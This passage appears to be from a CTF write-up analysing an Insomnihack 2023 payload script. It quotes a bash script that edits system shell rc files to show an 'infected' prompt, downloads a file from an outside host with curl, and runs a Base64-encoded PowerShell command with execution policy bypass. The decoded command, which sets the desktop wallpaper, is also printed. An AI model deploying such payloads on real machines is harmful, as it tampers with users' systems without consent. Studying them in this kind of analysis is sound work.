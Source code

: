 The content of `/host/payload` is the following:

```bash
#!/bin/bash

echo $SHELL

SERVER="welcome.insomnihack.ch:4242"

if [ -e "C:\Windows" ];then
	# Windows
	echo 'export PS1="\[\033[01;32m\]SHAME - You are infected $ \[\033[0m\]"' >> /etc/bash.bashrc
	echo 'export PS1="\[\033[01;32m\]SHAME - You are infected \[\033[0m\]"' >> /etc/zsh/zshrc
	curl -s "http://$SERVER/wallpaper.jpg?type=qLXfYey7yr5b" -o $TEMP/insomnihack.jpg
	# Base64(UTF16-LE(payload))
	powershell.exe -exec bypass -enc "YQBkAGQALQB0AHkAcABlACAAQAAnACAADQAKAHUAcwBpAG4AZwAgAFMAeQBzAHQAZQBtAC4AUgB1AG4 [CUT] =" > /dev/null 2>&1
else
```

If we are on Windows:

1. Modify the Bash and Zsh prompt to the Infected shell prompt.
2. Retrieve a wallpaper image and store it as `insomnihack.jpg`
3. Run a Powershell command which is Base64 encoded.

We decode the Base64 and get this command, which obviously modifies the system's wallpaper to an `insomnihack.png`

```
add-type @' 
using System.Runtime.InteropServices; 
namespace Win32{ 
    
     public class Wallpaper{ 
        [DllImport("user32.dll", CharSet=CharSet.Auto)] 
         static extern int SystemParametersInfo (int uAction , int uParam , string lpvParam , int fuWinIni) ; 
         
         public static void SetWallpaper(string thePath){ 
            SystemParametersInfo(20,0,thePath,3); 
         }
    }
 } 
'@ | out-null
[Win32.Wallpaper]::SetWallpaper("{0}\insomnihack.png" -f $ENV:TEMP) | out-null
```

Note: the script downloaded a JPG file, and it is setting a PNG file as wallpaper. Unless I missed something, I don't think this worked.

If we are using Linux, we get in the following part of the script:

![](/images/ins23-linux-script.png)
